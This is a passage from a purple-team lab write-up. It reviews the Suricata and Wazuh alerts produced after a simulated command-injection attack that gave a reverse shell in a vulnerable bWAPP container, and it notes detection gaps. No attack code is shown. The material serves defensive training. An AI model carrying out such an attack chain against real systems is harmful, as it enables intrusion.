> **Find the project on Github (**https://github.com/0xMR007/Lab4PurpleSec) and don’t hesitate to open an _issue_ or a _pull request_!
> ⭐ Each **star on the repository** also encourages its development.
>
> _Together, let’s make **Lab4PurpleSec** an even more powerful tool for the cyber community!_

### Suricata network alerts

<div align="center">
    
</div>

This subsection reviews the **alerts generated by Suricata**, the IDS/IPS configured on pfSense. These alerts allow detecting **intrusion attempts**, **suspicious connections**, and **attack patterns** (such as reverse shells). We will evaluate if current Suricata rules are sufficient to identify the attack and propose improvements to strengthen detection.

To visualize Suricata alerts reported in Wazuh, we can start by going to the Wazuh agent management page `/endpoints-summary/agents-preview`.

Active Wazuh agents:



_Figure 3.3 - Wazuh agent management page_

Our two Wazuh agents are properly detected as “active” by the Wazuh server.

Let’s open two tabs to get a global view of these two machines.

We will focus on the pfSense agent in this section.

Alerts obtained on Wazuh (pfSense agent):



_Figure 3.4 - Events received page - pfSense agent_

As we can see in the screenshot above, we received two Suricata alerts in Wazuh during our exploitation with reverse shell.

One concerning the obtaining of a reverse shell and another concerning the execution of the `whoami` command.

> Note that in this scenario, Suricata uses its default configuration from the _Lab4PurpleSec_ environment. This means that only basic rules (those installed during the initial pfSense configuration) are active. No custom or specific rules for the simulated attacks have been added yet.

We can optionally inspect the alerts in detail.

Detailed Wazuh alerts:



_Figure 3.5 - 1st detailed event - pfSense agent_



_Figure 3.6 - 2nd detailed event - pfSense agent_

The information seems consistent with the attack we conducted previously.

### Wazuh alerts (Web Server)

<div align="center">
    
</div>

This subsection focuses on **Wazuh alerts** generated by the agent installed on the web server (`DMZ-WEB01-LIN`). We will analyze the **events** and **abnormal behaviors** detected by Wazuh. The objective is to verify if the SIEM correctly identified malicious activities and identify the **limitations** of current detection.

So far, we have obtained:

- Nginx container logs allowing to trace the attacker’s web activity
- Suricata alerts concerning the BWAPP container compromise which were correctly reported in Wazuh.

Now we need to look at what we obtained on the web server agent (host machine of the compromised Docker container).

Alerts obtained on Wazuh:



_Figure 3.7 - Events received page - web server agent_

It seems we received 4 alerts (including 3 classified as “system problems”) on the web server agent.

As before, we can optionally get more details on the received events.

Detailed alerts (from oldest to newest):



_Figure 3.8 - 1st detailed event - web server agent_



_Figure 3.9 - 2nd detailed event - web server agent_



_Figure 4.0 - 3rd detailed event - web server agent_



_Figure 4.1 - 4th detailed event - web server agent_

## **Scenario 1 conclusion**

This scenario allowed us to **simulate a realistic attack** from the WAN to the DMZ, by exploiting a command injection vulnerability on a vulnerable web application (BWAPP). Thanks to this situation, we were able to:

- ✅ **Validate the attack chain**: From vulnerability identification to obtaining a _reverse shell_ in a Docker container.
- ✅ **Analyze traces left** by the attacker: Nginx logs, Suricata alerts, and Wazuh events revealed **key indicators** (source IP, suspicious requests, HTTP codes), but also **limitations** in detection (lack of Docker context, unlogged request bodies).
- ✅ **Identify improvement areas**: Strengthening Suricata rules, integrating Nginx logs with Wazuh, and adding metadata for finer forensic analysis.

### **Contribution & feedback**

This scenario is an **evolving base**! If you identify **improvements** (detection rules, attack techniques, tool integrations), don’t hesitate to:

- **Open an** _issue_ **or a** _pull request_ **on the GitHub repository**.
- **Share your feedback** online!

**Final objective**:  
Transform _Lab4PurpleSec_ into a **complete Purple Team training environment**, where each scenario allows **testing and strengthening** both offensive _and_ defensive capabilities

---
